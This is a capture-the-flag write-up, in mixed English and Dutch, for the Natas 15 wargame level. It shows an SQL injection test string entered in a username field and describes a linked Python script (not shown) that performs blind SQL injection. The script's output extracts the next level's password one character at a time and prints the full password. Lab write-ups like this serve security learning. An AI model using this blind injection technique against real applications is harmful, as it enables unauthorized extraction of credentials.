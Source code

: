 My assumption is that we’re looking for the natas16 password, and that there will also be a natas16 user to match

If I enter 

```" OR 1=1 -- ``` OR ```natas16```

I get:

**This user exists.**

We zullen nu adhv een script het passwoord proberen te bruteforcen:

Dit script voert een Blind SQL Injection aanval uit op natas15 om het wachtwoord van natas16 te achterhalen. Het test letter voor letter of een bepaalde substring van het wachtwoord klopt, gebaseerd op de boodschap "This user exists.".

Zie [blind-sql.py](blind-sql.py)

Output:

``` commands
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ python blind_sql.py 
Found one more char : h
Found one more char : hP
Found one more char : hPk
Found one more char : hPkj
Found one more char : hPkjK
Found one more char : hPkjKY
Found one more char : hPkjKYv
Found one more char : hPkjKYvi
Found one more char : hPkjKYviL
Found one more char : hPkjKYviLQ
Found one more char : hPkjKYviLQc
Found one more char : hPkjKYviLQct
Found one more char : hPkjKYviLQctE
Found one more char : hPkjKYviLQctEW
Found one more char : hPkjKYviLQctEW3
Found one more char : hPkjKYviLQctEW33
Found one more char : hPkjKYviLQctEW33Q
Found one more char : hPkjKYviLQctEW33Qm
Found one more char : hPkjKYviLQctEW33Qmu
Found one more char : hPkjKYviLQctEW33QmuX
Found one more char : hPkjKYviLQctEW33QmuXL
Found one more char : hPkjKYviLQctEW33QmuXL6
Found one more char : hPkjKYviLQctEW33QmuXL6e
Found one more char : hPkjKYviLQctEW33QmuXL6eD
Found one more char : hPkjKYviLQctEW33QmuXL6eDV
Found one more char : hPkjKYviLQctEW33QmuXL6eDVf
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfM
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4s
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4sG
Found one more char : hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```
